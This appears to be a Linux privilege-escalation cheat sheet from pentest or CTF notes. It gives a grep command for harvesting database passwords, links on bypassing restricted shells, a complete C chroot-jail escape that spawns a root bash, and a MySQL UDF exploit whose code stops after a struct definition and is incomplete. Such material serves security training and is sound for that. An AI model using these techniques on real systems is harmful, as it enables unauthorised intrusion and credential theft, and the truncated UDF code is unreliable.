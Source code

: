 
*****

![](https://i.imgur.com/GzRCSPr.png)
_**Previous path**_
![](https://i.imgur.com/yuFQamn.png)
_**New path**_




# Stored passwords and shared servers
Use the `grep -nr "db_user" .` to get juicy passwords.

# Restricted Shell
#### rbash
If you are in rbash then [this](https://attackdefense.com/challengedetails?cid=97) will help.

https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290
https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf

#### chroot jail
```
#inlcude<stdlib.h>
#include<sys/stat.h>
#include <unistd.h>
int main(void){
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i< 1000; i++)
{
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```

# Services running on server
`ps aux | grep "^root"` gives you the running services as root
then
`service --version` will give the version of service so that we can find the exploit.

**Never run mysql service as a root:**
[Mysql service as a root UDF Exploitation](https://dillidba.blogspot.com/2016/01/get-root-shell-access-using-mysql-with.html)
[UDF Exploit](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)
```c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

```